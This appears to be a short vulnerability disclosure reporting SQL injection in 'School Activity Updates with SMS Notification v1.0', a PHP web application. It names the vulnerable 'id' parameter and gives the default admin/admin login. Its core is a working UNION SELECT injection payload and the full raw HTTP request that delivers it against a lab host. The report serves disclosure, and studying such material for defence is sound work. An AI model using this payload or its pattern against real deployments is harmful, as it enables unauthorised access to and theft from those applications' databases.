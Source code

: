 # School Activity Updates with SMS Notification v1.0 by janobe has SQL injection

BUG_Author: salute

Login account: admin/admin (Super Admin account)

vendors: https://www.sourcecodester.com/php/13799/school-activity-updates-sms-notification-phppdo.html

The program is built using the xmapp-php5.6 version

Vulnerability File: /activity/admin/modules/department/index.php?view=edit&id=

Vulnerability location: /activity/admin/modules/department/index.php?view=edit&id=, id

dbname =db_wvsu

[+] Payload: /activity/admin/modules/department/index.php?view=edit&id=-3%27%20union%20select%201,database(),3--+ // Leak place ---> id

```sql
GET /activity/admin/modules/department/index.php?view=edit&id=-3%27%20union%20select%201,database(),3--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=a58hbbkeelngug4ek0dssb0rb5
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/183559848-aa9c40cd-9dbf-413e-9fb7-126cfe09781f.png)
